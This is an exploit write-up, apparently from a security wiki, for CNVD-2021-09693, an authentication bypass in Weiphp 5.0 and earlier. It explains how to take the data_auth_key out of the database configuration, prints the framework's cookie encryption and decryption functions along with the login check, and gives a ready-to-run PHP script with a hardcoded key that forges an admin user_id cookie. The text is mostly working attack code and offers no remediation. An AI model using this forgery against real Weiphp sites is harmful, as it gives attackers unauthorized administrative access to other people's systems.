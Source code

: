 <languages  />

Vulnerability Impact
--------------------

    Weiphp <= 5.0

Exploit
-------

First, you need to get the `data_auth_key` key in the database configuration file

![](Weiphp-15.png "Weiphp-15.png")

To get this configuration file, please refer to [%BB%B6%E4%BB%BB%E6%84%8F%E8%AE%80%E5%8F%96%E6%BC%8F%E6%B4%9E CNVD-2020-68596 Weiphp5.0 front file Arbitrary read vulnerability](https://www.pwnwiki.org/index.php?title=CNVD-2020-68596_Weiphp5.0_%E5%89%8D%E5%8F%B0%E6%96%87%E4)

    'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'

Find the place where this key is used globally:

![](Weiphp-16.png "Weiphp-16.png")

Found the encryption method and decryption method based on this key

Encryption method `think_encrypt`


    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

Decryption method `think_decrypt`

    function think_decrypt($data, $key = '')
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);
        $data = str_replace(array(
            '-',
            '_'
        ), array(
            '+',
            '/'
        ), $data);
        $mod4 = strlen($data) % 4;
        if ($mod4) {
            $data .= substr('====', $mod4);
        }
        $data = base64_decode($data);
        $expire = substr($data, 0, 10);
        $data = substr($data, 10);

        if ($expire > 0 && $expire < time()) {
            return '';
        }
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = $str = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        for ($i = 0; $i < $len; $i++) {
            if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
                $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
            } else {
                $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
            }
        }
        return base64_decode($str);
    }

The file `application\common.php` contains the code to use the decryption method for authentication

    function is_login()
    {
        $user = session('user_auth');
        if (empty($user)) {
            $cookie_uid = cookie('user_id');
            if (!empty($cookie_uid)) {
                $uid = think_decrypt($cookie_uid);
                $userinfo = getUserInfo($uid);
                D('common/User')->autoLogin($userinfo);

                $user = session('user_auth');
            }
        }
        if (empty($user)) {
            return 0;
        } else {
            return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
        }
    }

According to the code obtained here, you can know that when user_Id=1, the key will be decrypted to determine whether it is correct, and if it is correct, you can log in to the system

We can log in to the system by encrypting the cookie obtained with user_id=1 with an encryption code locally

    <?php
    show_source(__FILE__);
    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
        $key = md5($key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

    echo 'user_id = ' . think_encrypt($_GET['user_id']);
    ?>

Add `cookie: user_id=xxxxxxxx` to log in successfully

![](Weiphp-18.png "Weiphp-18.png")

Reference
---------

<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7Cookie%E4%BC%AA%E9%80%A0%20CNVD-2021-09693.html>